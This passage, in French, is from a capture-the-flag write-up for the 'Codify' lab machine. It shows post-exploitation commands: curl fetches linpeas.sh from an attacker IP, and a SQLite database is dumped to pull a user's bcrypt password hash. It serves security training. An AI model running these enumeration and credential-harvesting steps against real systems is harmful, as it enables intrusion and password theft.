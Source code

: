 ### joshua
En regardant dans /home, on trouve l'utilisateur **joshua**. On va essayer de trouver son mot de passe pour avoir un accès à un compte utilisateur sur la machine cible.

### joshua password : tickets.db
```bash
svc@codify:~$ curl 10.10.14.125:80/linpeas.sh > linpeas.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  828k  100  828k    0     0  5875k      0 --:--:-- --:--:-- --:--:-- 5914k
```

```bash
## On met le resultat de linpeas dans un fichier
$ ./linpeas.sh > linpeas_result.txt &
## On fait un grep pour voir les fichiers .db
$ cat linpeas_result.txt | grep ".db"
Found /var/lib/plocate/plocate.db: regular file, no read permission
Found /var/www/contact/tickets.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 17, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 17
 -> Extracting tables from /var/lib/command-not-found/commands.db (limit 20)
 -> Extracting tables from /var/lib/fwupd/pending.db (limit 20)
 -> Extracting tables from /var/lib/PackageKit/transactions.db (limit 20)
 -> Extracting tables from /var/www/contact/tickets.db (limit 20)

## On remarque le fichier tickets.db qui semble intéressant
svc@codify:~$ cat /var/www/contact/tickets.db 
�T5��T�format 3@  .WJ
       otableticketsticketsCREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)��	tableusersusersCREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
��G�joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
��
����ua  users
             ickets
r]r�h%%�Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open� ;�wTom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!opensvc@codify:~$ 2024-01-10 17:23:17 TLS Error: local/remote TLS keys are out of sync: [AF_INET]23.106.35.214:1337 [7]
```
Dans ce fichier il y a le hash de l'utilisateur joshua
```bash
joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

### Second way to find tickets.db
A l'aide de grep, on peut rechercher tous les fichiers qui contiennent une certaine chaine de caractères. On aurait pu par exemple, faire une recherche récursive de "joshua" dans tous les fichiers du système cible. On aurait alors trouver facilement le fichier tickets.db.
```bash
svc@codify:~$ grep -rl "joshua" / 2> /dev/null
/run/systemd/transient/session-c1.scope
/run/systemd/users/1000
/run/systemd/sessions/c1
/var/cache/apt/srcpkgcache.bin
/var/cache/apt/pkgcache.bin
/var/www/contact/tickets.db # ICI
/var/lib/apt/lists/lk.archive.ubuntu.com_ubuntu_dists_jammy_universe_binary-amd64_Packages
/var/lib/apt/lists/lk.archive.ubuntu.com_ubuntu_dists_jammy_universe_i18n_Translation-en
```